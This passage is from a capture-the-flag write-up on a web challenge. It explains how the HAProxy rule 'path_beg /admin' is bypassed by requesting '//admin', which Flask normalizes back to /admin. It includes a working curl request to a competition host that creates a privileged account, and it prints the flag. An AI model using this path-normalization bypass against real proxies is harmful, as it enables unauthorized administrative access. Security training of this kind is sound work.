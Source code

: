 This Access Control List (ACL) rule, `is_admin_path`, uses `path_beg` to check if the request path starts with `/admin`. If it does, the request is denied.

**Application Logic (app.py)**

The login() function contains a crucial check:
```python
# From /login route
u = dbs.query(User).filter_by(username=data.get("username")).first()
# ...
if not u.registered_via_admin:
    flash("Access denied: account not registered via admin.", "error")
    return render_template("login.html"), 403
```

A user can only log in successfully if their `registered_via_admin` attribute in the database is True.

![Admin Endpoint Code](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/party1.png)

#### 2. The Vulnerability: Path Normalization

The vulnerability stems from an inconsistency in how different layers of the web stack parse a URL path:

- **HAProxy (path_beg):** This rule performs a literal, case-insensitive string comparison. It checks if the path string starts with the exact characters `/admin`. A path like `//admin` does not meet this condition, as it starts with `//a`. Therefore, HAProxy's ACL does not block it.

- **Flask (Werkzeug):** When the request for `//admin` is forwarded to the backend, Flask's routing engine (Werkzeug) automatically normalizes the path. It collapses multiple slashes into one, treating `//admin` as being identical to `/admin`.

#### 3. Exploitation

**Step 1: Create a Privileged User**

```bash
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"username":"cofastic", "password":"123"}' \        
  http://5.223.49.127:8001//admin
```

![User Creation](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/party2.png)

**Step 2: Log In and Capture the Flag**

With the privileged user created, we can now navigate to the login page and enter the credentials.

![Flag Retrieved](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/party3.png)

**Flag:** `SIBER25{s3lf_1nv17ed_gu35ts_wh47?}`

---

### SafePDF
